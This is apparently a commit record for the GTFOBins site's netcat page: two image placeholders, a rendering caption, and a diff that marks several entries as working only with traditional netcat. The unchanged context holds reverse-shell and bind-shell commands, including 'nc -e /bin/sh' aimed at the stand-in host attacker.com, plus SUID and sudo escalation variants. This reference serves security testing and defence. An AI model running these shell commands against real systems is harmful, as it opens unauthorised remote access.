

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nc.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Describe which functions work with netcat traditional

```diff
--- a/_gtfobins/nc.md
+++ b/_gtfobins/nc.md
@@ -1,13 +1,13 @@
 ---
 functions:
   reverse-shell-interactive:
-    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
       code: |
         RHOST=attacker.com
         RPORT=12345
         nc -e /bin/sh $RHOST $RPORT
   bind-shell-interactive:
-    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
+    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This only works with netcat traditional.
       code: |
         LPORT=12345
         nc -l -p $LPORT -e /bin/sh
@@ -25,13 +25,13 @@ functions:
         LFILE=file_to_save
         nc -l -p $LPORT > "$LFILE"
   suid-limited:
-    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
       code: |
         RHOST=attacker.com
         RPORT=12345
         ./nc -e /bin/sh $RHOST $RPORT
   sudo-enabled:
-    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
       code: |
         RHOST=attacker.com
         RPORT=12345
```
